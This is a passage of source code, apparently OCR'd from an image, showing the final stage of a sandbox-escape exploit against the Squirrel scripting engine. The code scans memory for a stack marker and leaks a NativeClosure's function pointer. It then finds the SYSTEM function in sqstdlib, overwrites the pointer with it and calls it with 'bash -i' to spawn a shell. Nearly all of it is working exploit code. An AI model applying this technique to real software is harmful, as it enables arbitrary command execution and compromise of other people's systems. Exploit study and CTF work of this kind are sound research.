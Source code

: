 ```
}

# find an object with the given type
function findObject(addr, type) {
  return findAlignedQWord(addr, type)
}

# find an integer with the given value
function findIntegerObj(addr, val) {
  while (read(addr) != OT_INTEGER || read(addr + 8) != val) {
    addr += 8;
  }
  return addr;
}


# first, locate the address of "marker" (marker will be put on the stack)
# since the stack is located after our blobs, we can start searching from the "victimBuf" address
local marker = 0x13371337;
local stackAddr = findIntegerObj(victimBuf, marker);
printf("found stack at %#x\n", stackAddr);

# we will putna NativeClosure on the stack (escape)
# we can then replace the function pointer of the NativeClosure with system
local escape_func = escape;
local escape_nc = read(findObject(stackAddr, OT_NATIVECLOSURE) + 8);

# the function pointer is located at offset + 0x68
# this leaks the location of the sqstdlib shared object in memory
local escape_faddr = read(escape_nc + 0x68)
printf("escape nativeclosure %#x func %#x\n", escape_nc, escape_faddr);

# search for SYSTEM func (note: all caps to not cause false references)
# sqstdlib also contains the sqstdsystem lib, which will have an object associating SYSTEM with the _SYSTEM func
# we first find that string, and then find the reference to it
local SYSTEM_STR = findChars(escape_faddr, "SYSTEM")
printf("SYSTEM str: %#x\n", SYSTEM_STR);

local strRef = findAlignedQWord(vtable & ~0xfff, SYSTEM_STR);
printf("str ref at: %#x\n", strRef);
local SYSTEM_ADDR = read(strRef + 8)
printf("SYSTEM at: %#x\n", SYSTEM_ADDR);

// replace escapeFunc ref
write(escape_nc + 0x68, SYSTEM_ADDR)

// call it
escape_func("bash -i 2>&1")


debugtrap(escape_func)

```
